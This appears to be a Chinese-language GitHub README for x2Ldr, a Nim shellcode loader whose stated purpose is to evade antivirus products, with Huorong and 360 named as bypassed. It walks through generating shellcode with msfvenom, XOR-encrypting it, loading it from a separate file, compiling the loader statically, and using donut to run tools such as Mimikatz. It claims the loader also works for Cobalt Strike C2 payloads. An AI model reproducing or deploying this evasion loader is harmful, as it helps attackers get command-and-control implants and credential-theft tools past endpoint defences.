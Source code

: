 # x2Ldr
免杀效果：火绒、360（未开核晶）均联网

读入 Msfvenom 或 Cobalt Strike 等 C2 的 Shellcode 方式分离免杀

或者配合 donut 可以将 exe、dll 转为 Shellcode 载入 MimiKatz 等工具

# 使用方法
在 windows 配置 nim 环境。
官网下载 https://nim-lang.org/install_windows.html

https://nim-lang.org/download/nim-2.0.0_x64.zip

msfvenom 生成 shellcode

```
msfvenom -a x64 -p windows/x64/exec CMD=calc -f raw -o calc_x64.bin
```

xor 加密 msfvenom 生成的 raw 格式 shellcode

```sh
> python .\xorencrypt.py .\calc_x64.bin
> xor encrypted : .\calc_encrypted.bin
```

将加密后的文件名作为参数传递给 nim 文件中的 fopen 参数

```cpp
	//修改这里
	char key[] = "key";

	//修改这里
	fp = fopen("user.dat", "rb");
```

编译

```
nim c -d=mingw --app=gui --cpu=amd64 -d:release --opt:size --passL:-static .\x2Ldr.nim
```



# 效果

![image-20231212214131373](img/image1.png)

![image-20231212214155866](img/image2.png)

## huorong

![image-20231212204157772](img/image3.png)

## 360

![image-20231212213425036](img/image4.png)

![image-20231212213449828](img/image5.png)
